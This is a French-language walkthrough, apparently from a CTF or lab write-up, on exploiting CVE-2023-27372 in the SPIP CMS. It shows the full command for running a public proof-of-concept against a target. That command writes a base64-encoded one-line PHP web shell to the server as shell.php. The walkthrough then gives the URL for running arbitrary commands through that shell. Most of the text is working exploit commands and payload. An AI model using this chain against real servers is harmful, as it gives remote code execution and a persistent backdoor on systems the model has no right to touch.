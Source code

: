 J'ai téléchargé le code de la PoC et j'ai renommé le fichier avec la CVE :
```sh
mv Téléchargements\51536.py CVE-2023-27372.py
```
![CVE-2023-27372-2.png](Screens/CVE-2023-27372-2.png)

Pour l'utiliser, on doit faire la commande suivante :
- `python CVE-2023-27372.py` pour faire l'exécution du code Python
- `-u http://<IP-cible>/spip` option pour préciser l'url avec l'ip de la cible 
- `-c` option pour préciser la commande à effectuer, entouré de `' '` 
- `'echo PD89YCRfR0VUWzBdYD8+|base64 -d > shell.php'`  :

Il faut faire télécharger à la machine cible, un code en PHP pour transformer notre url vers le serveur web en terminal de commande :
- On va convertir ce code PHP :
```php
<?=`$_GET[0]`?>
```
- En base 64, avec [CyberChef](https://gchq.github.io/): 
```base64
PD89YCRfR0VUWzBdYD8+
```
![cyberchef.png](Screens/cyberchef.png)

> **Pourquoi en base64 ?**
> Puisque le code PoC utilise déjà des guillemets dans la charge utile, il est possible d'utiliser base64 pour éviter d'être confronté à ceux de notre shell inverse.

- Et, nous allons créer un fichier PHP avec cette base64, qu'on va décoder avec l'option `-d` : 
```
'echo PD89YCRfR0VUWzBdYD8+|base64 -d > shell.php'
```

Enfin, on a la commande suivante :
```sh
python CVE-2023-27372.py -u http://<IP-cible>/spip -c 'echo PD89YCRfR0VUWzBdYD8+|base64 -d > shell.php'
```
![python%20cve.png](Screens/python%20cve.png)
Maintenant que l'on fait cette commande, nous pouvons taper cet url :
```
http://<IP-cible>/spip/shell.php?0=<cmd>
```
